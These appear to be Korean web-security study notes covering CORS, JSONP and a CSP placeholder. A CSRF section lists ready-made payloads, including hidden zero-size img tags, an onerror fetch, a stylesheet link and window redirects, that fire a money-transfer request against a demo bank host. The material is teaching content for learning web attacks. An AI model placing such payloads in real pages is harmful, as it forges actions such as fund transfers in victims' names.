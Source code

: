 
### Cross Origin Resource Sharing (CORS)
- 이미지나 자바스크립트, CSS 등의 리소스를 불러오는 `<img>`, `<style>`, `<script>` 등의 태그는 SOP의 영향을 받지 않습니다.
- 교차 출처의 자원을 공유하는 방법은 CORS와 관련된 HTTP 헤더를 추가하여 전송하는 방법을 사용합니다. 이 외에도 JSON with Padding (JSONP) 방법을 통해 CORS를 대체할 수 있습니다.

```javascript
/*
    XMLHttpRequest 객체를 생성합니다. 
    XMLHttpRequest는 웹 브라우저와 웹 서버 간에 데이터 전송을
    도와주는 객체 입니다. 이를 통해 HTTP 요청을 보낼 수 있습니다.
*/
xhr = new XMLHttpRequest();
/* https://theori.io/whoami 페이지에 POST 요청을 보내도록 합니다. */
xhr.open('POST', 'https://theori.io/whoami');
/* HTTP 요청을 보낼 때, 쿠키 정보도 함께 사용하도록 해줍니다. */
xhr.withCredentials = true;
/* HTTP Body를 JSON 형태로 보낼 것이라고 수신측에 알려줍니다. */
xhr.setRequestHeader('Content-Type', 'application/json');
/* xhr 객체를 통해 HTTP 요청을 실행합니다. */
xhr.send("{'data':'WhoAmI'}");
```
- 표를 살펴보면, 발신측에서 POST 방식으로 HTTP 요청을 보냈으나, OPTIONS 메소드를 가진 HTTP 요청이 전달된 것을 확인할 수 있습니다. 이를 `CORS preflight`라고 하며, 수신측에 웹 리소스를 요청해도 되는지 질의하는 과정입니다.

### JSON with Padding (JSONP)
```javascript
<script>
/* myCallback이라는 콜백 함수를 지정합니다. */
function myCallback(data){
    /* 전달받은 인자에서 id를 콘솔에 출력합니다.*/
	console.log(data.id)
}
</script>
<!--
https://theori.io의 스크립트를 로드하는 HTML 코드입니다.
단, callback이라는 이름의 파라미터를 myCallback으로 지정함으로써
수신측에게 myCallback 함수를 사용해 수신받겠다고 알립니다.
-->
<script src='http://theori.io/whoami?callback=myCallback'></script>
```

### Content Security Policy (CSP)
- 링크 참고

## Vulnerability

### CSRF
- html
```html
<img src='http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337' width=0px height=0px>
<img src="/sendmoney?to=dreamhack&amount=1337">
<img src=1 onerror="fetch('/sendmoney?to=dreamhack&amount=1337');">
<link rel="stylesheet" href="/sendmoney?to=dreamhack&amount=1337">
```
- javascript
```javascript
/* 새 창 띄우기 */
window.open('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');
/* 현재 창 주소 옮기기 */
location.href = 'http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337';
location.replace('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');
```
